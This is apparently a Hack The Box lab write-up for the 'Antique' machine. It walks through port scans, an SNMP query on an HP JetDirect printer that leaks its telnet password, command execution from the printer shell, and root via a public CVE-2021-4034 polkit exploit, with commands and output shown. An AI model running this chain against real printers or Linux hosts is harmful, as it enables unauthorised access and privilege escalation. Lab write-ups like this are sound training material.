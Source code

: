 ```yaml
---
layout: post
title: "Antique"
date: 2023-12-26 18:58:00 +0100
categories: [writeup, easy]
tags: [machine, snmp, telnet, polkit]
---
```


<p>
    <a href="https://app.hackthebox.com/machines/400">
        <img src="https://labs.hackthebox.com/storage/avatars/b966fca9d30da209a90dffad5f390acf.png" width="500"
        alt="Descripción">
    </a>
</p>

# Antique Writeup

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [SNMP Enum](#2-snmp-enum)
3. [Privilege Escalation](#3-privilege-escalation)

## 1. Recon

As usual, we start with an Nmap scan to identify open ports and services.

```bash
figueron@kali$ nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.107
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-02 00:47 UTC
Nmap scan report for 10.10.11.107
Host is up (0.097s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
figueron@kali$ nmap -p 23 -sCV -oA scans/nmap-tcpscripts 10.10.11.107
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-02 00:50 UTC
Nmap scan report for 10.10.11.107
Host is up (0.090s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.80%I=7%D=5/2%Time=626F2AC3%P=x86_64-pc-linux-gnu%r(NULL,
SF:F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPass
...[snip]...
SF:rect\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.19 seconds
```

As we only have port 23 open, we can try to connect to it using `telnet`.

```bash 
figueron@kali$ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password:
```

We try to log with some common credentials, but they dont work, so lets try to search for udp ports.

```bash
figueron@kali$ sudo nmap -sU --top-ports 10 -sV 10.10.11.107
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-02 10:22 UTC
Nmap scan report for 10.10.11.107
Host is up (0.090s latency).

PORT     STATE  SERVICE      VERSION
53/udp   closed domain
67/udp   closed dhcps
123/udp  closed ntp
135/udp  closed msrpc
137/udp  closed netbios-ns
138/udp  closed netbios-dgm
161/udp  open   snmp         SNMPv1 server (public)
445/udp  closed microsoft-ds
631/udp  closed ipp
1434/udp closed ms-sql-m

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.35 seconds
```

We can see that we have an SNMP service running on port 161, so we can try to enumerate it.

## 2. SNMP Enum

```bash 
figueron@kali$ snmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

This is a printer, there are lots of blogs about printers and how to exploit them, so we can try to search for some exploits. [Hacking Network Printers](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

```bash
figueron@kali$ snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```

Now, just convert the hex to ascii and use this password to login to the telnet service.

```bash
figueron@kali$ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: xxxxxxxx
```

Inside the printer shell, we can use exec to run commands in the same way as a bash shell.

```bash
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

So we just set up a reverse shell to get the user flag.

We are logged in as **lp**, which can read the flag.

## 3. Privilege Escalation

If we run Linpeas, we can see that this kernel version is vunerable to polkit exploit.

```bash
lp@antique:/dev/shm$ dpkg -s policykit-1
Package: policykit-1
Status: install ok installed
Priority: optional
Section: admin
Installed-Size: 560
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: amd64
Multi-Arch: foreign
Version: 0.105-26ubuntu1.1
Depends: dbus, libpam-systemd, libc6 (>= 2.7), libexpat1 (>= 2.0.1), libglib2.0-0 (>= 2.37.3), libpam0g (>= 0.99.7.1), libpolkit-agent-1-0 (= 0.105-26ubuntu1.1), libpolkit-gobject-1-0 (= 0.105-26ubuntu1.1), libsystemd0 (>= 213)
Conffiles:
 /etc/pam.d/polkit-1 7c794427f656539b0d4659b030904fe0
 /etc/polkit-1/localauthority.conf.d/50-localauthority.conf 2adb9d174807b0a3521fabf03792fbc8
 /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf c4dbd2117c52f367f1e8b8c229686b10
Description: framework for managing administrative policies and privileges
 PolicyKit is an application-level toolkit for defining and handling the policy
 that allows unprivileged processes to speak to privileged processes.
 .
 It is a framework for centralizing the decision making process with respect to
 granting access to privileged operations for unprivileged (desktop)
 applications.
Homepage: https://www.freedesktop.org/wiki/Software/polkit/
Original-Maintainer: Utopia Maintenance Team <pkg-utopia-maintainers@lists.alioth.debian.org>
```

This can be exploited with [CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034), so we can use this exploit to get root.

```bash
lp@antique:/dev/shm$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)
```

Done!!